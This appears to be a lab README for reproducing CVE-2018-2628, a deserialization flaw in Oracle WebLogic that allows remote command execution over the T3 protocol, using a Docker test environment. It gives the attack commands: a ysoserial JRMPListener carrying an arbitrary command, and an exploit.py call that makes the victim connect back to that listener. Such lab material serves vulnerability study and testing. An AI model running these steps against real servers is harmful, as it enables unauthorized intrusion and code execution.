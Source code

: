 # Weblogic WLS Core Components Deserialization Remote Command Execution (CVE-2018-2628)

[中文版本(Chinese version)](README.zh-cn.md)

Oracle Weblogic Server is a popular enterprise application server that provides a wide range of features for building and deploying enterprise applications.

In Oracle's April 2018 patch, a deserialization vulnerability in Weblogic Server WLS Core Components was fixed (CVE-2018-2628). This vulnerability can be triggered through the T3 protocol, allowing unauthorized users to execute arbitrary commands on the remote server.

Reference links:

- http://www.oracle.com/technetwork/security-advisory/cpuapr2018-3678067.html
- http://mp.weixin.qq.com/s/nYY4zg2m2xsqT0GXa9pMGA
- https://github.com/tdy218/ysoserial-cve-2018-2628

## Environment Setup

Execute the following command to start Weblogic 10.3.6.0:

```
docker compose up -d
```

Wait for the environment to start (depending on your machine, it might take a while), then visit `http://your-ip:7001/console` to initialize the environment.

## Vulnerability Reproduce

First, download ysoserial and start a JRMP Server:

```
java -cp ysoserial-0.0.6-SNAPSHOT-BETA-all.jar ysoserial.exploit.JRMPListener [listen port] CommonsCollections1 [command]
```

Where `[command]` is the command you want to execute, and `[listen port]` is the port that the JRMP Server listens on.

Then, use the [exploit.py](https://www.exploit-db.com/exploits/44553) script to send a packet to the target Weblogic (`http://your-ip:7001`):

```
python exploit.py [victim ip] [victim port] [path to ysoserial] [JRMPListener ip] [JRMPListener port] [JRMPClient]
```

Where `[victim ip]` and `[victim port]` are the IP and port of the target weblogic, `[path to ysoserial]` is the local path to ysoserial, `[JRMPListener ip]` and `[JRMPListener port]` are the IP address and port of the JRMP Server started in step 1. `[JRMPClient]` is the class to execute JRMPClient, the optional values are `JRMPClient` or `JRMPClient2`.

After exploit.py is executed, run `docker compose exec weblogic bash` to enter the container, and you can see that /tmp/success has been successfully created.

![](1.png)
